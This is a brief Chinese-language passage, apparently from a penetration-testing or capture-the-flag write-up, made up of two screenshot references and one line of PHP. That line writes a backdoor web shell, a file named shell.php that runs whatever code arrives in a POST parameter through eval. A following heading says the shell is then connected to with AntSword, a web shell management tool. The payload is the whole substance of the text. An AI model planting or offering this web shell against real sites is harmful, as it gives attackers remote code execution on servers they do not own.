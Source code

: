 写入木马

![截图](9629b213e8850ffdfd3aef5a8d062bd5.png)

```
<?php fputs(fopen('../../shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```

蚁剑连接

![截图](e2a7337e8d3516a8a6ec2a7b7bbe5b1b.png)
